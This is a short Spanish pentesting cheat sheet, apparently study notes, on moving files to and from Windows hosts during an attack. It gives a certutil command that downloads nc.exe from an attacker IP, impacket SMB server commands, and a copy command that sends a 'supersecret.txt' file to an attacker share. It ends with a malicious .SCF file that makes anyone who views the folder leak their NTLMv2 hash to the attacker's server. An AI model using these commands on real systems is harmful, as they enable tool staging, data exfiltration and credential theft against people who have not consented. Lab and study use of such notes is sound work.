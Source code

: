 ## Descargar  archivos Windows

```
certutil.exe -urlcache -split -f "http://172.16.1.30/nc.exe" C:\temp\nc.exe
```



### smbserver

Para compartir una carpeta desde linux y verla en windows muy util cuando trabajas con windows...

```
impacket-smbserver smbFolder $(pwd)

```

Para copiar en windows funciona en ambas direcciones. Esto es la forma mas comoda que he encontrado para poder subir y bajar archivos.

```
copy \\10.10.1.14\smbfolder\nc.exe
Para trasferir algo
copy C:\temp\supersecret.txt \\172.16.1.30\hax\supersecret.txt
```

Pero para verciones de windows modernas tienes que poder usar el SMB v2 para eso usa

```
# En kali

impacket-smbserver  -smb2support  smbFolder $(pwd) 

```

Y en Windows:

```
copy \\192.168.230.128\smbfolder\oscp.exe .
```

> https://juggernaut-sec.com/windows-file-transfers-for-hackers/

> https://ppn.snovvcrash.rocks/pentest/infrastructure/file-transfer

> https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

## .SCF

Permite que cuando se cargue el icono se autentique y nos mande el hash ntlm v2 del usuario que intenta ver esa carpeta

```
# impacket-smbserver  -smb2support  smbFolder $(pwd) 
[Shell]
Command=2

IconFile=\\10.10.14.21\smbfolder\icon
```
